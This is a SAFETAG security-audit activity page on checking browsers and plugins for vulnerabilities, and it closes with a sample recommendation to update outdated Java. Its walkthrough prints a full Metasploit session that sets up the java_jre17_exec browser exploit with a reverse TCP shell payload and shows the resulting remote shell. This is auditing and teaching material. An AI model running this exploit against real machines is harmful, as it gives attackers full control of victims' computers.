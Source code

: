 ```yaml
---
approach:
- Technical
authors:
- SAFETAG
materials_needed: |-
- '* Metasploit'
org_size_under:
- 25
recommendation: |-
- '**Sample Recommendation for outdated Java**'
- One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable
  version of the Java plugin for Internet Explorer.
- This version contains a vulnerability that is easily exploitable using one of the
  recent Java exploit modules from the widely available Metasploit security auditing
  framework. These modules allow an attacker to gain complete control over the computer
  of a victim who visits a malicious Web site hosted anywhere on the Internet. If
  the attacker is inside the office LAN, they can easily trick the victim into visiting
  that malicious Web site without the victim even knowing it.
- At least one of the organization’s computers is running an outdated Java browser
  plugin, and exploit code is widely-available for several critical vulnerabilities
  in versions older than “Java 7, update 16.” All of the organization’s Java installations
  should be updated to the latest version. This can be troublesome, as (unlike the
  Windows operating system itself) Java plugins sometimes require user input before
  they will install updates.
remote_options:
- with-support
skills_required:
- N/A
summary: |-
- Though modern browsers are better at self-updating, and the prevalence of powerful
  plugins like flash and java are slowly declining, it is valuable to ensure that
  the browsers in use have updated plugins and are themselves updated.
time_required_minutes:
- 30
title: Check user browser vulns
---
```


#### Check Browser and Plugin Vulnerabilities

##### Summary

Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are slowly declining, it is valuable to ensure that the browsers in use have updated plugins and are themselves updated.

##### Overview

##### Materials Needed

* Metasploit

##### Considerations

##### Walkthrough

###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell

##### Recommendation

**Sample Recommendation for outdated Java**

One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable version of the Java plugin for Internet Explorer.

This version contains a vulnerability that is easily exploitable using one of the recent Java exploit modules from the widely available Metasploit security auditing framework. These modules allow an attacker to gain complete control over the computer of a victim who visits a malicious Web site hosted anywhere on the Internet. If the attacker is inside the office LAN, they can easily trick the victim into visiting that malicious Web site without the victim even knowing it.

At least one of the organization’s computers is running an outdated Java browser plugin, and exploit code is widely-available for several critical vulnerabilities in versions older than “Java 7, update 16.” All of the organization’s Java installations should be updated to the latest version. This can be troublesome, as (unlike the Windows operating system itself) Java plugins sometimes require user input before they will install updates.